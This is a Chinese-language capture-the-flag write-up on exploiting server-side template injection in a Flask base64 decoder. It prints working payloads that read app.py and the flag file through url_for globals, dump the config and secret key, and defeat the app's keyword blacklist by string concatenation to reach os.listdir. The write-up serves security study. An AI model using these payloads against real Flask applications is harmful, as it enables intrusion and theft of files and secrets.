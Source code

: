 ![](<./img/Pasted image 20221221165258.png>)

---
首页长这样

![](<./img/Pasted image 20221221165318.png>)


```
/decode
```

![](<./img/Pasted image 20221221165420.png>)

```
/hint
```

![](<./img/Pasted image 20221221165508.png>)

---
先是扫目录，无果

编码页面无计可施，尝试在解码页面制造错误

尝试对`123`进行解码

跳转到了`Werkzeug`的调试页面

![](<./img/Pasted image 20221221165800.png>)

获取到了部分源码

大体上是`flask`的`SSTI`

![](<./img/Pasted image 20221221170818.png>)

![](<./img/Pasted image 20221221171012.png>)

```python
{{config}}
```
> 结果 ： &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;

emmm，`secret_key`看着没什么用，似乎没有什么有价值的信息

---
`url_for`可以使用，直接套出源码先
```python
{{url_for.__globals__['__builtins__']['open']('app.py','r').read()}}
```
> 结果 ： from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(\_\_name\_\_) app.config\[&#39;SECRET_KEY&#39;\] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = \[&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;\*&#34;,&#34;?&#34;\] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=\[&#39;GET&#39;\]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=\[&#39;GET&#39;\]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if \_\_name\_\_ == &#39;\_\_main\_\_&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)

```python
def waf(str):
	black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]
	for x in black_list:
		if x in str.lower():
			return 1
```

`waf`是直接的字符串匹配

直接拼接绕过

```python
{{url_for.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}
```
>[&#39;bin&#39;, &#39;boot&#39;, &#39;dev&#39;, &#39;etc&#39;, &#39;home&#39;, &#39;lib&#39;, &#39;lib64&#39;, &#39;media&#39;, &#39;mnt&#39;, &#39;opt&#39;, &#39;proc&#39;, &#39;root&#39;, &#39;run&#39;, &#39;sbin&#39;, &#39;srv&#39;, &#39;sys&#39;, &#39;tmp&#39;, &#39;usr&#39;, &#39;var&#39;, &#39;this_is_the_flag.txt&#39;, &#39;.dockerenv&#39;, &#39;app&#39;\]

```python
{{url_for.__globals__['__builtins__']['open']('/this_is_the_fl'+'ag.txt','r').read()}}
```

![](<./img/Pasted image 20221221194819.png>)

#Web #python #flask #SSTI #function #代码审计 